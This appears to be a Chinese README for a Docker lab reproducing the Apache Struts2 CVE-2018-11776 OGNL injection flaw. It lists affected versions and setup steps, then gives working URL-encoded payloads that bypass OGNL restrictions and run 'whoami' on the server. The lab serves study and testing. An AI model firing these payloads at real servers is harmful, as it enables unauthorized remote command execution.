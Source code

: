 ## 环境部署

```
docker-compose build 
docker-compose up -d 
```

该漏洞是鸡肋漏洞


1. 漏洞影响

确定CVE-2018-11776为高危漏洞。
实际场景中存在一定局限性，需要满足一定条件。

2. 影响版本

Struts 2.3 to 2.3.34
Struts 2.5 to 2.5.16

3. 修复版本

Struts 2.3.35
Struts 2.5.17


## 漏洞复现
访问http://127.0.0.1:8080/struts2-showcase/${(111+111)}/actionChain1.action
会显示到了http://127.0.0.1:8080/struts2-showcase/222/actionChain1.action， 该测试条件针对所有版本通杀，但是事项命令执行就需要一些低级的版本




两个版本都是利用com.opensymphony.xwork2.dispatcher.HttpServletResponse对象去打印命令执行后的回显数据

2.3.20 版本的POC如下：

/%24%7B%28%23_memberAccess%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29.%28%23w%3D%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%29.%28%23w.print%28@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%29%29%29.%28%23w.close%28%29%29%7D/index.action
2.3.34 版本的POC如下：

/%24%7B%28%23dm%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28@com.opensymphony.xwork2.ognl.OgnlUtil@class%29%29.%28%23ou.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ou.getExcludedClasses%28%29.clear%28%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23w%3D%23ct.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%29.%28%23w.print%28@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%29%29%29.%28%23w.close%28%29%29%7D/index.action



EXP
```
http://127.0.0.1:8080/struts2-showcase/%24%7B%28%23dm%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28@com.opensymphony.xwork2.ognl.OgnlUtil@class%29%29.%28%23ou.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ou.getExcludedClasses%28%29.clear%28%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23w%3D%23ct.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%29.%28%23w.print%28@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%29%29%29.%28%23w.close%28%29%29%7D/actionChain1.action
```

![](README/luffy1.png)







[漏洞分析](https://4hou.win/wordpress/?p=23374)


部署方案
```
修改/usr/local/tomcat/webapps/struts2-showcase/WEB-INF/classes/struts-actionchaining.xml和/usr/local/tomcat/webapps/struts2-showcase/WEB-INF/src/java/struts-actionchaining.xml文件如下

<struts>
    <package name="actionchaining" extends="struts-default">
        <action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
           <result type="redirectAction">
             <param name = "actionName">register2</param>
           </result>
        </action>
    </package>
</struts>
```


